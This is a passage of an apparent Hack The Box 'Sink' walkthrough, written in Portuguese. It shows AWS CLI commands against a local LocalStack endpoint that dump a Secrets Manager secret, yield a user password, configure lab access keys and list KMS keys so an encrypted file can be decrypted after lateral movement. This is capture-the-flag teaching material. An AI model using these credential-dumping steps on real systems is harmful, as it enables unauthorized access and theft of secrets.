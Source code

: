 Com as informações obtidas, podemos obter os valores dos secrets.

```bash
marcus@sink:~$ aws --endpoint-url="http://127.0.0.1:4566/" secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-HRbzR"
```

<img src="/img/htb/htb-sink-23.png">

E conseguimos a credencial do usuário david:david:EALB=bcC=`a7f2#k.

Vamos fazer o movimento lateral.

<img src="/img/htb/htb-sink-24.png">

Dentro do diretório do usuário david, encontrei o arquivo `servers.enc` no diretório `/home/david/Projects/Prod_Deployment`.

<img src="/img/htb/htb-sink-25.png">

Este arquivo está encriptado, pois é uma criptografia `server-side` da aws. Para conseguir abrí-lo, precisamos da key correta, novamente utilizaremos as configurações da aws.

```bash
david@sink:~/Projects/Prod_Deployment$ aws configure
AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: us
Default output format [None]: json
```

Agora podemos listar as `keys`.

```bash
david@sink:~/Projects/Prod_Deployment$ aws --endpoint-url="http://127.0.0.1:4566/" kms list-keys
```
